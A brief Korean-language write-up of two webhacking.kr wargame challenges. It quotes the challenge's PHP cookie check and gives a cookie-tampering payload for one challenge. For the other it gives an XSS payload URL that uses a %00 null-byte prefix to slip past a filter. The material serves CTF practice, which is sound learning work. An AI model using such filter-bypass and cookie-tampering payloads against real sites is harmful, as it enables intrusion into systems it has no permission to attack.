

# webhacking.kr write up
블로그가 너무 느려서 마크다운으로 갈아탔다

## prob 1
```php
$password="????";
if(eregi("[^0-9,.]",$_COOKIE[user_lv])) $_COOKIE[user_lv]=1;
if($_COOKIE[user_lv]>=6) $_COOKIE[user_lv]=1;
if($_COOKIE[user_lv]>5) @solve();
echo("<br>level : $_COOKIE[user_lv]");
```
`user_lv`가 6 이상이면 `user_lv`가 1로 되돌아가고, `user_lv`가 5보다 크면 풀리게 된다.
5 < `user_lv` < 6 이면 된다는 것이다. `user_lv`가 5.xx면 풀릴 것 같다.
### payload
`document.cookie = "user_lv=5.1"`

## prob 23
<br>
`Your mission is to inject <script>alert(1);</script>`이라고 한다.
그냥 GET으로 넘길 때 code값 맨 앞에 NULL(%00)을 추가해 주면 풀린다.
### payload
`http://webhacking.kr/challenge/bonus/bonus-3/index.php?code=%00<script>alert(1);</script>`
